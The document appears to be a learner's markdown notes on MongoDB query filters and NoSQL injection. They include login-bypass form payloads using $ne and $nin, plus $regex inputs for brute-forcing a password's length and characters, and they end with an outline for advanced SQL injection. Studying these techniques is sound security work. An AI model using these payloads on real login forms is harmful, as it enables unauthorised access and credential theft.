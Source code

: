  -You would then create a document for each employee containing the data in a format that looks like this:
 ###  {"_id" : ObjectId("5f077332de2cdf808d26cd74"), "username" : "lphillips", "first_name" : "Logan", "last_name" : "Phillips", "age" : "65", "email" : "lphillips@example.com" }
 
### Querying the Database
If we wanted to build a filter so that only the documents where the last_name is "Sandler" are retrieved, our filter would look like this:
`**['last_name' => 'Sandler']**`
If we wanted to filter the documents where the gender is male, and the last_name is Phillips, we would have the following filter:
`**['gender' => 'male', 'last_name' => 'Phillips']**`
If we wanted to retrieve all documents where the age is less than 50, we could use the following filter:
`**['age' => ['$lt'=>'50']]**`
 
>[!tip]
># Query and Projection Operators
>https://www.mongodb.com/docs/manual/reference/operator/query/

#### you can use $ne = not equal 
`user[$ne]=test&pass[$ne]=test&remember=on` ==> you need to put it in intercept sections and the forward it
#### Notice that the $nin operator receives a list of values to ignore.

> [!NOTE]
> - ['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]
### Extracting Users' Passwords
| name                                                                                                       | Description                                                          |
| ---------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| [`$regex`](https://www.mongodb.com/docs/manual/reference/operator/query/regex/#mongodb-query-op.-regex)    | Selects documents where values match a specified regular expression. |
| [`$exists`](https://www.mongodb.com/docs/manual/reference/operator/query/exists/#mongodb-query-op.-exists) | Matches documents that have the specified field.                     |
| [`$nin`](https://www.mongodb.com/docs/manual/reference/operator/query/nin/#mongodb-query-op.-nin)          | Matches none of the values specified in an array.                    |
#### user=admin&pass[$regrex]=^.{length of password (bruteforce it)}$&remember=on | exemple length =5 ==> ==it depend on the response location==
#### user=admin&pass[$regrex]=^(bruteforce)....$&remember=on ==> bruteforce every letter 

## III. advance SQL Injection
### Objectif:
#### - Second-order SQL injection   
#### - Filter evasion
#### - Out-of-band SQL Injection
#### - Automation techniques
#### - Mitigation measures
